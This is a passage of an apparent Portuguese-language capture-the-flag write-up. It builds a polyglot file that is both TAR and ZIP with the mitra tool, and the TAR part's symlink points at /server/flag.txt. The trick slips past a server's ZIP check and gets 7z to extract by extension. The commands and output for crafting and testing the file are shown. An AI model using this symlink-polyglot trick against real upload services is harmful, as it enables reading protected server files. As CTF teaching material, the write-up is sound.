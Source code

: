 A tool to generate binary polyglots (files that are valid with several file formats).`

Esse conceito do "arquivo poliglota" é bem interessante: basicamente arquivos que funcionam como dois ou mais formatos.

Basicamente passamos como parâmetros dois arquivos de formatos diferentes e ele tenta combiná-los, de forma que essa combinação passe a funcionar nos dois cenários (ex: PDF que também é uma imagem PNG).

Vamos tentar combinar os nossos arquivos ZIP e TAR:

```
$ python /opt/tools/mitra/mitra.py give_me_flag.tar a.zip
give_me_flag.tar
File 1: TAR / Tape Archive
a.zip
File 2: Zip

Stack: concatenation of File1 (type TAR) and File2 (type Zip)
Parasite: hosting of File2 (type Zip) in File1 (type TAR)
```

Isso gera dois arquivos com nomes bizarros, mas o que interessa é o Stack, que começa com "S".

```
$ ls S* P*
'P(200-400)-TAR[Zip].b85e2944.tar.zip'  'S(2800)-TAR-Zip.cc1382b4.zip.tar'
$ mv S\(2800\)-TAR-Zip.cc1382b4.zip.tar hackit.tar
```

Mas pra saber se é verdade, precisamos testar o arquivo como TAR e como ZIP.

```
$ tar tvf hackit.tar
lrwxrwxrwx root/root         0 2022-06-13 21:42 flag.lnk -> /server/flag.txt

$ unzip -l hackit.tar
Archive:  hackit.tar
warning [hackit.tar]:  10240 extra bytes at beginning or within zipfile
  (attempting to process anyway)
  Length      Date    Time    Name
---------  ---------- -----   ----
        2  2022-06-13 08:46   a.txt
---------                     -------
        2                     1 file
```

Bonito!
Temos um arquivo TAR, que também é um ZIP :)

## Hack It!

Resumo até aqui:
- A aplicação valida que o arquivo é ZIP, mas não valida a extensão.
- Criamos um TAR que é um Symlink para o caminho da Flag.
- A ferramenta de extração no servidor chama uma linha de comando do 7z, que usa a extensão do arquivo pra descompactar. 
- Criamos um arquivo que é ZIP e TAR ao mesmo tempo, com a ferramenta mitra (dica do autor).
